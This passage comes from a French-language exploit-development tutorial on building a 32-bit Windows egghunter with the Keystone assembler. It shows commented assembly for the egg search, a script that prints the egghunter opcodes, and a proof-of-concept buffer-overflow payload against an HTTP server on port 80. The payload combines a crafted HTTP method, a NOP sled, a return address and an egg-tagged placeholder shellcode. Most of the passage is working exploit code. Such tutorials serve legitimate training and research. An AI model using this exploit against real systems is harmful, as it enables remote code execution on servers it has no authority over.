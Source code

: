 ```py
    # Si le 1er DWORD du *egg* n'est pas trouvé on jump a `loop_inc_one` pour repeter le processus de recherche en incrémentant l'adresse mémoire de un
    # Si le 1er DWORD est trouve on va réutiliser SCASD pour chercher le deuxième DWORD de notre egg
"  jnz loop_inc_one ;" 
  # Compare de nouveau `EAX` mais avec le 2em DWORD de `EDI` (à la suite de l'incrémentation du premier `SCASD`)
"  scasd    ;" 
  # Jump conditionnel dépendant du résultat de la comparaison via `scasd`
    # Si le 2em DWORD du *egg* n'est pas trouvé on jump a `loop_inc_one` pour répéter le processus
    # Si le 2em DWORD est trouve on continue
"  jnz loop_inc_one ;" 
#
#
" matched:     "
  # On jump sur `EDI` qui contient donc l'*egg* puisque les 2 DWORD sont présents
"  jmp edi    ;"   
)

# Initialize engine in 32bit mode
ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)
egghunter = ""
for dec in encoding: 
  egghunter += "\\x{0:02x}".format(int(dec)).rstrip("\n")
  
print("egghunter = (\"" + egghunter + "\")")
```

Exécution du script complet et génération des *opcodes* correspondants :

```py
$ python3 egghunter.py
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7")
```

Mise à jour de la preuve de concept en intégrant les *opcodes* générés :

```py
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 80
  size = 253

  httpMethod = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /" # XOR ECX ECX; TEST ECX ECX; JE 0x17

  egghunter = (b"\x90\x90\x90\x90\x90\x90\x90\x90"  # NOP sled
               b"\x66\x81\xca\xff\x0f\x42\x52\x6a"
               b"\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
               b"\xef\xb8\x77\x30\x30\x74\x89\xd7"
               b"\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

  inputBuffer = b"\x41" * (size - len(egghunter))
  inputBuffer += pack("<L", (0x418674)) # 0x00418674 : POP EAX ; RET
  httpEndRequest = b"\r\n\r\n"

  shellcode = b"w00tw00t" + b"\x44" * 400

  buf = httpMethod + egghunter + inputBuffer +  httpEndRequest + shellcode
```